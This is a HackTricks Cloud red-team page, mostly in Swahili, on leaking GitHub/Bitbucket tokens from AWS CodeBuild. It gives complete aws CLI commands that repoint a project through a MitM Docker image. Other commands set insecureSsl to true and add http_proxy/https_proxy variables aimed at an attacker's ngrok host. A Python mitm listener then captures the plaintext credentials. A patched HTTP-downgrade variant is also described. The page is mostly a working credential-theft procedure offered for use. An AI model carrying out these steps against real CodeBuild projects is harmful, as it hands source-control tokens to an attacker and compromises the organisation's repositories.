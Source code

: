 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Recover Github/Bitbucket Configured Tokens

Kwanza, angalia kama kuna akidi za chanzo zilizowekwa ambazo unaweza kuvuja:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Ikiwa unapata kuwa uthibitisho kwa mfano Github umewekwa katika akaunti, unaweza **kuondoa** hiyo **ufikiaji** (**GH token au OAuth token**) kwa kufanya Codebuild **itumie picha maalum ya docker** kuendesha ujenzi wa mradi.

Kwa kusudi hili unaweza **kuunda mradi mpya wa Codebuild** au kubadilisha **mazingira** ya moja iliyopo ili kuweka **picha ya Docker**.

Picha ya Docker unayoweza kutumia ni [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Hii ni picha ya Docker ya msingi sana ambayo itaweka **env variables `https_proxy`**, **`http_proxy`** na **`SSL_CERT_FILE`**. Hii itakuruhusu kukamata sehemu kubwa ya trafiki ya mwenyeji iliyoonyeshwa katika **`https_proxy`** na **`http_proxy`** na kuamini SSL CERT iliyoonyeshwa katika **`SSL_CERT_FILE`**.

1. **Create & Upload your own Docker MitM image**
* Fuata maelekezo ya repo kuweka anwani yako ya IP ya proxy na kuweka cheti chako cha SSL na **ujenge picha ya docker**.
* **USIWEKE `http_proxy`** ili usikamate maombi kwa kiungo cha metadata.
* Unaweza kutumia **`ngrok`** kama `ngrok tcp 4444` kuweka proxy kwa mwenyeji wako.
* Mara tu unapokuwa na picha ya Docker iliyojengwa, **ipakie kwenye repo ya umma** (Dockerhub, ECR...)
2. **Set the environment**
* Unda **mradi mpya wa Codebuild** au **badilisha** mazingira ya moja iliyopo.
* Weka mradi kutumia **picha ya Docker iliyozalishwa awali**

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Set the MitM proxy in your host**

* Kama ilivyoonyeshwa katika **Github repo** unaweza kutumia kitu kama:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Toleo la **mitmproxy lililotumika ni 9.0.1**, iliripotiwa kwamba na toleo la 10 hii huenda isifanye kazi.
{% endhint %}

4. **Kimbia ujenzi & kamata taarifa za kuingia**

*   Unaweza kuona token katika kichwa cha **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Hii inaweza pia kufanywa kutoka kwa aws cli kwa kitu kama

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### Via insecureSSL

**Codebuild** miradi ina mipangilio inayoitwa **`insecureSsl`** ambayo imefichwa kwenye wavuti unaweza kubadilisha tu kutoka kwa API.\
Kuwezesha hii, inaruhusu Codebuild kuungana na hifadhi **bila kuangalia cheti** kinachotolewa na jukwaa.

* Kwanza unahitaji kuhesabu usanidi wa sasa kwa kitu kama:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
* Kisha, kwa taarifa ulizokusanya unaweza kuboresha mipangilio ya mradi **`insecureSsl`** kuwa **`True`**. Ifuatayo ni mfano wa jinsi nilivyoboresha mradi, angalia **`insecureSsl=True`** mwishoni (hii ndiyo kitu pekee unachohitaji kubadilisha kutoka kwenye usanidi ulio kusanya).
* Zaidi ya hayo, ongeza pia mabadiliko ya mazingira **http\_proxy** na **https\_proxy** yanayoelekeza kwenye tcp ngrok yako kama:

{% code overflow="wrap" %}
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "https://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
{% endcode %}

* Kisha,endesha mfano wa msingi kutoka [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) katika bandari iliyoonyeshwa na mabadiliko ya proxy (http\_proxy na https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Hatimaye, bonyeza **Build the project**, **credentials** zitatumwa kwa **maandishi wazi** (base64) kwenye bandari ya mitm:

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### ~~Kupitia itifaki ya HTTP~~

{% hint style="success" %}
**Ukatili huu ulirekebishwa na AWS wakati fulani katika wiki ya 20 ya Februari ya 2023 (nadhani Ijumaa). Hivyo, mshambuliaji hawezi kuutumia tena :)**
{% endhint %}

Mshambuliaji mwenye **idhini za juu katika CodeBuild anaweza kuvuja token ya Github/Bitbucket** iliyowekwa au ikiwa idhini ilipangwa kupitia OAuth, **token ya muda ya OAuth inayotumika kufikia msimbo**.

* Mshambuliaji anaweza kuongeza mabadiliko ya mazingira **http\_proxy** na **https\_proxy** kwenye mradi wa CodeBuild ukielekeza kwenye mashine yake (kwa mfano `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Kisha, badilisha URL ya repo ya github kutumia HTTP badala ya HTTPS, kwa mfano: `http://github.com/carlospolop-forks/TestActions`
* Kisha, endesha mfano wa msingi kutoka [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) kwenye bandari iliyoelekezwa na mabadiliko ya proxy (http\_proxy na https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Hatimaye, bonyeza **Build the project**, **credentials** zitatumwa kwa **clear text** (base64) kwenye bandari ya mitm:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Sasa mshambuliaji ataweza kutumia token kutoka kwa mashine yake, kuorodhesha haki zote alizo nazo na (ku)zitumia kwa urahisi zaidi kuliko kutumia huduma ya CodeBuild moja kwa moja.
{% endhint %}

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) au [**telegram group**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki hila za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
